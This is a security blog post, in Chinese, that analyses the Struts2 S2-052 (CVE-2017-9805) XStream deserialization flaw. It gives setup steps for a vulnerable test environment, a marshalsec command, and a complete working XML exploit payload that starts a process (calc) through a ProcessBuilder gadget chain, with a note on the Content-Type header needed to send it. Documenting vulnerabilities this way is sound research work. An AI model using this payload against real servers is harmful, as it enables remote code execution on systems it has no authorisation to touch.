



<!DOCTYPE html>
<html>
<head><meta name="generator" content="Hexo 3.8.0">
  <meta charset="utf-8">
  
  <title>Struts2RCE漏洞之S2-052 | sm0nk&#39;s blog</title>

  <!-- keywords -->
  

  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
  <meta name="description" content="基本信息漏洞编号  CVE-2017-9805(S2-052)影响版本  Struts 2.5 - Struts 2.5.12, Struts 2.3.x漏洞概述  问题出现在struts2-rest-plugin插件XStreamHandler处理器中的toObject()方法，其中未对传入的值进行任何限制，在使用XStream反序列化转换成对象时，导致任意代码执行漏洞。漏洞原理  跟上那些注入">
<meta name="keywords" content="struts2">
<meta property="og:type" content="article">
<meta property="og:title" content="Struts2RCE漏洞之S2-052">
<meta property="og:url" content="http://yoursite.com/2017/09/12/Struts2RCE漏洞之S2-052/index.html">
<meta property="og:site_name" content="sm0nk&#39;s blog">
<meta property="og:description" content="基本信息漏洞编号  CVE-2017-9805(S2-052)影响版本  Struts 2.5 - Struts 2.5.12, Struts 2.3.x漏洞概述  问题出现在struts2-rest-plugin插件XStreamHandler处理器中的toObject()方法，其中未对传入的值进行任何限制，在使用XStream反序列化转换成对象时，导致任意代码执行漏洞。漏洞原理  跟上那些注入">
<meta property="og:locale" content="default">
<meta property="og:image" content="http://yoursite.com/2017/09/12/Struts2RCE漏洞之S2-052/s2.png">
<meta property="og:image" content="http://yoursite.com/2017/09/12/Struts2RCE漏洞之S2-052/show.png">
<meta property="og:image" content="http://yoursite.com/2017/09/12/Struts2RCE漏洞之S2-052/avil.png">
<meta property="og:updated_time" content="2021-07-27T07:55:10.885Z">
<meta name="twitter:card" content="summary">
<meta name="twitter:title" content="Struts2RCE漏洞之S2-052">
<meta name="twitter:description" content="基本信息漏洞编号  CVE-2017-9805(S2-052)影响版本  Struts 2.5 - Struts 2.5.12, Struts 2.3.x漏洞概述  问题出现在struts2-rest-plugin插件XStreamHandler处理器中的toObject()方法，其中未对传入的值进行任何限制，在使用XStream反序列化转换成对象时，导致任意代码执行漏洞。漏洞原理  跟上那些注入">
<meta name="twitter:image" content="http://yoursite.com/2017/09/12/Struts2RCE漏洞之S2-052/s2.png">
  
    <link rel="alternative" href="/atom.xml" title="sm0nk&#39;s blog" type="application/atom+xml">
  
  
    <link rel="icon" href="http://p6.sinaimg.cn/3607464725/180/71341468803657">
  
  <link rel="stylesheet" href="/css/style.css">
  
  

  <script src="//cdn.bootcss.com/require.js/2.3.2/require.min.js"></script>
  <script src="//cdn.bootcss.com/jquery/3.1.1/jquery.min.js"></script>

  
</head></html>
<body>
  <div id="container">
    <div id="particles-js"></div>
    <div class="left-col">
    <div class="overlay"></div>
<div class="intrude-less">
	<header id="header" class="inner">
		<a href="/" class="profilepic">
			
			
			
		</a>

		<hgroup>
		  <h1 class="header-author"><a href="/">sm0nk</a></h1>
		</hgroup>

		

		
			<div class="switch-btn">
				<div class="icon">
					<div class="icon-ctn">
						<div class="icon-wrap icon-house" data-idx="0">
							<div class="birdhouse"></div>
							<div class="birdhouse_holes"></div>
						</div>
						<div class="icon-wrap icon-ribbon hide" data-idx="1">
							<div class="ribbon"></div>
						</div>
						
						
					</div>
					
				</div>
				<div class="tips-box hide">
					<div class="tips-arrow"></div>
					<ul class="tips-inner">
						<li>菜单</li>
						<li>标签</li>
						
						
					</ul>
				</div>
			</div>
		

		<div class="switch-area">
			<div class="switch-wrap">
				<section class="switch-part switch-part1">
					<nav class="header-menu">
						<ul>
						
							<li><a href="/categories/攻防渗透/">攻防渗透</a></li>
				        
							<li><a href="/categories/编程之道/">编程之道</a></li>
				        
							<li><a href="/categories/归纳总结/">归纳总结</a></li>
				        
							<li><a href="/categories/认知独省/">认知独省</a></li>
				        
						</ul>
					</nav>
					<nav class="header-nav">
						<div class="social">
							
								<a class="mail" target="_blank" href="mailto:sm0nk@qq.com" title="mail">mail</a>
					        
								<a class="weibo" target="_blank" href="http://weibo.com/shellr00t" title="weibo">weibo</a>
					        
						</div>
					</nav>
				</section>
				
				
				<section class="switch-part switch-part2">
					<div class="widget tagcloud" id="js-tagcloud">
						<a href="/tags/CTF/" style="font-size: 10px;">CTF</a> <a href="/tags/SQL注入/" style="font-size: 10px;">SQL注入</a> <a href="/tags/blog/" style="font-size: 10px;">blog</a> <a href="/tags/pentest/" style="font-size: 10px;">pentest</a> <a href="/tags/python/" style="font-size: 20px;">python</a> <a href="/tags/seleinum/" style="font-size: 10px;">seleinum</a> <a href="/tags/struts2/" style="font-size: 10px;">struts2</a> <a href="/tags/业务逻辑/" style="font-size: 10px;">业务逻辑</a> <a href="/tags/代理转发/" style="font-size: 10px;">代理转发</a> <a href="/tags/工控安全/" style="font-size: 10px;">工控安全</a> <a href="/tags/应急/" style="font-size: 20px;">应急</a> <a href="/tags/接口安全/" style="font-size: 10px;">接口安全</a> <a href="/tags/渗透/" style="font-size: 10px;">渗透</a> <a href="/tags/爆破/" style="font-size: 10px;">爆破</a> <a href="/tags/语言安全/" style="font-size: 10px;">语言安全</a> <a href="/tags/远程下载/" style="font-size: 10px;">远程下载</a>
					</div>
				</section>
				
				
				

				
			</div>
		</div>
	</header>				
</div>
    </div>
    <div class="mid-col">
      <nav id="mobile-nav">
  	<div class="overlay">
  		<div class="slider-trigger"></div>
  		<h1 class="header-author js-mobile-header hide">sm0nk</h1>
  	</div>
	<div class="intrude-less">
		<header id="header" class="inner">
			<div class="profilepic">
				
			</div>
			<hgroup>
			  <h1 class="header-author">sm0nk</h1>
			</hgroup>
			
			<nav class="header-menu">
				<ul>
				
					<li><a href="/categories/攻防渗透/">攻防渗透</a></li>
		        
					<li><a href="/categories/编程之道/">编程之道</a></li>
		        
					<li><a href="/categories/归纳总结/">归纳总结</a></li>
		        
					<li><a href="/categories/认知独省/">认知独省</a></li>
		        
		        <div class="clearfix"></div>
				</ul>
			</nav>
			<nav class="header-nav">
				<div class="social">
					
						<a class="mail" target="_blank" href="mailto:sm0nk@qq.com" title="mail">mail</a>
			        
						<a class="weibo" target="_blank" href="http://weibo.com/shellr00t" title="weibo">weibo</a>
			        
				</div>
			</nav>
		</header>				
	</div>
</nav>
      <div class="body-wrap"><article id="post-Struts2RCE漏洞之S2-052" class="article article-type-post" itemscope itemprop="blogPost">
  
    <div class="article-meta">
      <a href="/2017/09/12/Struts2RCE漏洞之S2-052/" class="article-date">
  	<time datetime="2017-09-12T15:17:46.000Z" itemprop="datePublished">2017-09-12</time>
</a>
    </div>
  
  <div class="article-inner">
    
      <input type="hidden" class="isFancy">
    
    
      <header class="article-header">
        
  
    <h1 class="article-title" itemprop="name">
      Struts2RCE漏洞之S2-052
      
    </h1>
  

      </header>
      
      <div class="article-info article-info-post">
        
	<div class="article-tag tagcloud">
		<ul class="article-tag-list"><li class="article-tag-list-item"><a class="article-tag-list-link" href="/tags/struts2/">struts2</a></li></ul>
	</div>

        
	<div class="article-category tagcloud">
	<a class="article-category-link" href="/categories/攻防渗透/">攻防渗透</a>
	</div>


        
        <div class="clearfix"></div>
      </div>
      
    
    <div class="article-entry" itemprop="articleBody">
      
        <h1><span id="基本信息">基本信息</span></h1><p>漏洞编号  CVE-2017-9805(S2-052)<br>影响版本  Struts 2.5 - Struts 2.5.12, Struts 2.3.x<br>漏洞概述  问题出现在struts2-rest-plugin插件XStreamHandler处理器中的toObject()方法，其中未对传入的值进行任何限制，在使用XStream反序列化转换成对象时，导致任意代码执行漏洞。<br>漏洞原理  跟上那些注入OGNL表达式，达到远程代码执行的方式还不大一样，S2-052漏洞是一种XML反序列化漏洞。漏洞本质是Struts2 REST插件的XStream组件存在反序列化漏洞，当使用XStream组件对XML格式的数据包进行反序列化操作时，没有对数据内容进行有效验证，存在反序列化后远程代码执行安全隐患。</p>
<a id="more"></a>
<!-- toc -->
<ul>
<li><a href="#搭建环境">搭建环境</a></li>
<li><a href="#payload生成">payload生成</a></li>
<li><a href="#漏洞利用">漏洞利用</a></li>
<li><a href="#拓展">拓展</a></li>
</ul>
<!-- tocstop -->
<h1><span id="搭建环境">搭建环境</span></h1><p>tomcat部署 war<br><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">从struts2的官网下载最后受影响的版本struts-2.5.12，地址： </span><br><span class="line">http://archive.apache.org/dist/struts/2.5.12/struts-2.5.12-apps.zip </span><br><span class="line">注意下载struts-2.5.12-apps即可，不需要下载struts-2.5.12-all.zip。不然struts-2.5.12-all.zip中包含很多其他的东西，可以看到lib目录下有很多jar包。</span><br><span class="line">struts2-rest-showcase，插件的默认配置支持xml扩展</span><br></pre></td></tr></table></figure></p>
<p></p>
<p>默认配置server.xml 默认不变<br><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">&lt;Host name=&quot;localhost&quot;  appBase=&quot;webapps&quot;</span><br><span class="line">unpackWARs=&quot;true&quot; autoDeploy=&quot;true&quot;</span><br><span class="line">xmlValidation=&quot;false&quot; xmlNamespaceAware=&quot;false&quot;&gt;</span><br></pre></td></tr></table></figure></p>
<p>直接使用jspstudy 不可以，有可能精简过环境。新搭建的tomcat9 没有问题</p>
<h1><span id="payload生成">payload生成</span></h1><figure class="highlight java"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">用marshalsec（https:<span class="comment">//github.com/mbechler/marshalsec）生成Payload，工具简单使用方式如下</span></span><br><span class="line">java -cp marshalsec-<span class="number">0.0</span>.1-SNAPSHOT-all.jar marshalsec.XStream ImageIO calc &gt; <span class="number">1</span>.txt</span><br></pre></td></tr></table></figure>
<p>payload, 目前此payload为windows 开启calc 计算器弹窗的。<br><figure class="highlight xml"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br></pre></td><td class="code"><pre><span class="line"><span class="tag">&lt;<span class="name">map</span>&gt;</span></span><br><span class="line">  <span class="tag">&lt;<span class="name">entry</span>&gt;</span></span><br><span class="line">    <span class="tag">&lt;<span class="name">jdk.nashorn.internal.objects.NativeString</span>&gt;</span></span><br><span class="line">      <span class="tag">&lt;<span class="name">flags</span>&gt;</span>0<span class="tag">&lt;/<span class="name">flags</span>&gt;</span></span><br><span class="line">      <span class="tag">&lt;<span class="name">value</span> <span class="attr">class</span>=<span class="string">"com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"</span>&gt;</span></span><br><span class="line">        <span class="tag">&lt;<span class="name">dataHandler</span>&gt;</span></span><br><span class="line">          <span class="tag">&lt;<span class="name">dataSource</span> <span class="attr">class</span>=<span class="string">"com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"</span>&gt;</span></span><br><span class="line">            <span class="tag">&lt;<span class="name">is</span> <span class="attr">class</span>=<span class="string">"javax.crypto.CipherInputStream"</span>&gt;</span></span><br><span class="line">              <span class="tag">&lt;<span class="name">cipher</span> <span class="attr">class</span>=<span class="string">"javax.crypto.NullCipher"</span>&gt;</span></span><br><span class="line">                <span class="tag">&lt;<span class="name">initialized</span>&gt;</span>false<span class="tag">&lt;/<span class="name">initialized</span>&gt;</span></span><br><span class="line">                <span class="tag">&lt;<span class="name">opmode</span>&gt;</span>0<span class="tag">&lt;/<span class="name">opmode</span>&gt;</span></span><br><span class="line">                <span class="tag">&lt;<span class="name">serviceIterator</span> <span class="attr">class</span>=<span class="string">"javax.imageio.spi.FilterIterator"</span>&gt;</span></span><br><span class="line">                  <span class="tag">&lt;<span class="name">iter</span> <span class="attr">class</span>=<span class="string">"javax.imageio.spi.FilterIterator"</span>&gt;</span></span><br><span class="line">                    <span class="tag">&lt;<span class="name">iter</span> <span class="attr">class</span>=<span class="string">"java.util.Collections$EmptyIterator"</span>/&gt;</span></span><br><span class="line">                    <span class="tag">&lt;<span class="name">next</span> <span class="attr">class</span>=<span class="string">"java.lang.ProcessBuilder"</span>&gt;</span></span><br><span class="line">                      <span class="tag">&lt;<span class="name">command</span>&gt;</span></span><br><span class="line">                        <span class="tag">&lt;<span class="name">string</span>&gt;</span>calc<span class="tag">&lt;/<span class="name">string</span>&gt;</span></span><br><span class="line">                      <span class="tag">&lt;/<span class="name">command</span>&gt;</span></span><br><span class="line">                      <span class="tag">&lt;<span class="name">redirectErrorStream</span>&gt;</span>false<span class="tag">&lt;/<span class="name">redirectErrorStream</span>&gt;</span></span><br><span class="line">                    <span class="tag">&lt;/<span class="name">next</span>&gt;</span></span><br><span class="line">                  <span class="tag">&lt;/<span class="name">iter</span>&gt;</span></span><br><span class="line">                  <span class="tag">&lt;<span class="name">filter</span> <span class="attr">class</span>=<span class="string">"javax.imageio.ImageIO$ContainsFilter"</span>&gt;</span></span><br><span class="line">                    <span class="tag">&lt;<span class="name">method</span>&gt;</span></span><br><span class="line">                      <span class="tag">&lt;<span class="name">class</span>&gt;</span>java.lang.ProcessBuilder<span class="tag">&lt;/<span class="name">class</span>&gt;</span></span><br><span class="line">                      <span class="tag">&lt;<span class="name">name</span>&gt;</span>start<span class="tag">&lt;/<span class="name">name</span>&gt;</span></span><br><span class="line">                      <span class="tag">&lt;<span class="name">parameter-types</span>/&gt;</span></span><br><span class="line">                    <span class="tag">&lt;/<span class="name">method</span>&gt;</span></span><br><span class="line">                    <span class="tag">&lt;<span class="name">name</span>&gt;</span>foo<span class="tag">&lt;/<span class="name">name</span>&gt;</span></span><br><span class="line">                  <span class="tag">&lt;/<span class="name">filter</span>&gt;</span></span><br><span class="line">                  <span class="tag">&lt;<span class="name">next</span> <span class="attr">class</span>=<span class="string">"string"</span>&gt;</span>foo<span class="tag">&lt;/<span class="name">next</span>&gt;</span></span><br><span class="line">                <span class="tag">&lt;/<span class="name">serviceIterator</span>&gt;</span></span><br><span class="line">                <span class="tag">&lt;<span class="name">lock</span>/&gt;</span></span><br><span class="line">              <span class="tag">&lt;/<span class="name">cipher</span>&gt;</span></span><br><span class="line">              <span class="tag">&lt;<span class="name">input</span> <span class="attr">class</span>=<span class="string">"java.lang.ProcessBuilder$NullInputStream"</span>/&gt;</span></span><br><span class="line">              <span class="tag">&lt;<span class="name">ibuffer</span>&gt;</span><span class="tag">&lt;/<span class="name">ibuffer</span>&gt;</span></span><br><span class="line">              <span class="tag">&lt;<span class="name">done</span>&gt;</span>false<span class="tag">&lt;/<span class="name">done</span>&gt;</span></span><br><span class="line">              <span class="tag">&lt;<span class="name">ostart</span>&gt;</span>0<span class="tag">&lt;/<span class="name">ostart</span>&gt;</span></span><br><span class="line">              <span class="tag">&lt;<span class="name">ofinish</span>&gt;</span>0<span class="tag">&lt;/<span class="name">ofinish</span>&gt;</span></span><br><span class="line">              <span class="tag">&lt;<span class="name">closed</span>&gt;</span>false<span class="tag">&lt;/<span class="name">closed</span>&gt;</span></span><br><span class="line">            <span class="tag">&lt;/<span class="name">is</span>&gt;</span></span><br><span class="line">            <span class="tag">&lt;<span class="name">consumed</span>&gt;</span>false<span class="tag">&lt;/<span class="name">consumed</span>&gt;</span></span><br><span class="line">          <span class="tag">&lt;/<span class="name">dataSource</span>&gt;</span></span><br><span class="line">          <span class="tag">&lt;<span class="name">transferFlavors</span>/&gt;</span></span><br><span class="line">        <span class="tag">&lt;/<span class="name">dataHandler</span>&gt;</span></span><br><span class="line">        <span class="tag">&lt;<span class="name">dataLen</span>&gt;</span>0<span class="tag">&lt;/<span class="name">dataLen</span>&gt;</span></span><br><span class="line">      <span class="tag">&lt;/<span class="name">value</span>&gt;</span></span><br><span class="line">    <span class="tag">&lt;/<span class="name">jdk.nashorn.internal.objects.NativeString</span>&gt;</span></span><br><span class="line">    <span class="tag">&lt;<span class="name">jdk.nashorn.internal.objects.NativeString</span> <span class="attr">reference</span>=<span class="string">"../jdk.nashorn.internal.objects.NativeString"</span>/&gt;</span></span><br><span class="line">  <span class="tag">&lt;/<span class="name">entry</span>&gt;</span></span><br><span class="line">  <span class="tag">&lt;<span class="name">entry</span>&gt;</span></span><br><span class="line">    <span class="tag">&lt;<span class="name">jdk.nashorn.internal.objects.NativeString</span> <span class="attr">reference</span>=<span class="string">"../../entry/jdk.nashorn.internal.objects.NativeString"</span>/&gt;</span></span><br><span class="line">    <span class="tag">&lt;<span class="name">jdk.nashorn.internal.objects.NativeString</span> <span class="attr">reference</span>=<span class="string">"../../entry/jdk.nashorn.internal.objects.NativeString"</span>/&gt;</span></span><br><span class="line">  <span class="tag">&lt;/<span class="name">entry</span>&gt;</span></span><br><span class="line"><span class="tag">&lt;/<span class="name">map</span>&gt;</span></span><br></pre></td></tr></table></figure></p>
<h1><span id="漏洞利用">漏洞利用</span></h1><p></p>
<p>需要更改Content-Type类型为application/xml</p>
<p></p>
<h1><span id="拓展">拓展</span></h1><p>struts 重要漏洞列表，S2-003、S2-005、S2-007、S2-008、S2-009、S2-012、S2-013、S2-015、S2-016、S2-019、S2-029、S2-032、S2-033、S2-037、S2-045、S2-046、S2-048、S2-052。<br>虽然上述漏洞那么多，但是其本质都是一样的(除了S2-052以外)，都是Struts2框架执行了恶意用户传进来的OGNL表达式，造成远程代码执行。可以造成“命令执行、服务器文件操作、打印回显、获取系统属性、危险代码执行”等，只不过需要精心构造不同的OGNL代码而已</p>

      
    </div>
    
  </div>
  
    
<nav id="article-nav">
  
    <a href="/2017/10/18/代理转发工具汇总分析/" id="article-nav-newer" class="article-nav-link-wrap">
      <strong class="article-nav-caption">&lt;</strong>
      <div class="article-nav-title">
        
          代理转发工具汇总分析
        
      </div>
    </a>
  
  
    <a href="/2017/09/10/记观安杯一道PHP审计/" id="article-nav-older" class="article-nav-link-wrap">
      <div class="article-nav-title">记观安杯一道PHP审计</div>
      <strong class="article-nav-caption">&gt;</strong>
    </a>
  
</nav>

  
</article>


</div>
      <footer id="footer">
  <div class="outer">
    <div id="footer-info">
      <div class="footer-left">
        &copy; 2022 sm0nk
      </div>
        <div class="footer-right">
          <a href="http://hexo.io/" target="_blank">Hexo</a>  Theme <a href="https://github.com/smackgg/hexo-theme-smackdown" target="_blank">Smackdown</a>
        </div>
    </div>
  </div>
</footer>
    </div>
    
  <link rel="stylesheet" href="/fancybox/jquery.fancybox.css">


<script>
	var yiliaConfig = {
		fancybox: true,
		mathjax: true,
		animate: true,
		isHome: false,
		isPost: true,
		isArchive: false,
		isTag: false,
		isCategory: false,
		open_in_new: true
	}
</script>
<script src="/js/main.js"></script>


<script type="text/x-mathjax-config">
MathJax.Hub.Config({
    tex2jax: {
        inlineMath: [ ['$','$'], ["\\(","\\)"]  ],
        processEscapes: true,
        skipTags: ['script', 'noscript', 'style', 'textarea', 'pre', 'code']
    }
});

MathJax.Hub.Queue(function() {
    var all = MathJax.Hub.getAllJax(), i;
    for(i=0; i < all.length; i += 1) {
        all[i].SourceElement().parentNode.className += ' has-jax';                 
    }       
});
</script>

<script src="//cdn.bootcss.com/mathjax/2.7.0/MathJax.js"></script>


  </div>
</body>
</html>